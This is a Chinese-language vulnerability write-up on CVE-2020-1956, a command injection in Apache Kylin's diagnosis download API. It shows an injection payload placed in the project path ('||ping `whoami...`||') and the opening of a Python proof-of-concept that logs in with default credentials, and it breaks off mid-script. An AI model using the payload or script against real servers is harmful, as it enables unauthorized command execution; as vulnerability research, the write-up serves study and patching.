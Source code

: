 这样我们就可以通过控制 {project} 请求就可以造成命令注入

```
/kylin/api/diag/project/{project}/download
/kylin/api/diag/project/||ping `whoami.111.111.111`||/download
```

拼接后则出现

```
/home/admin/apache-kylin-3.0.1-bin-hbase1x/bin/diag.sh {project} {diagDir}
```

这里通过报错语句可以回显命令验证漏洞存在

```
 throw new InternalErrorException("Failed to dump project diagnosis info. " + e.getMessage(), e);
```

![](http://wikioss.peiqi.tech/vuln/kylin-21.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

在修复中，过滤了||,&&等符号，造成无法命令注入

![](http://wikioss.peiqi.tech/vuln/kylin-22.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞通报中共两个利用点

```
/kylin/api/diag/project/{project}/download  
/kylin/api/diag/job/{jobId}/download
```

查看函数发现利用方式相同，直接利用job会失败，因为 {project}默认有一个**learn_kylin**，而job没有

![](http://wikioss.peiqi.tech/vuln/kylin-23.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys
import re


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Kylin <= 3.0.1                                    \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7070                            \033[0m')
    print('+  \033[36mLogin  >>> admin:KYLIN(格式为User:Pass)                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    login_url = target_url + "/kylin/api/user/authentication"
    user_pass = str(input("\033[35mPlease input User and Pass\nLogin >>> \033[0m"))

    Authorization = "Basic " + str((base64.b64encode(user_pass.encode('utf-8'))),'utf-8')
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
```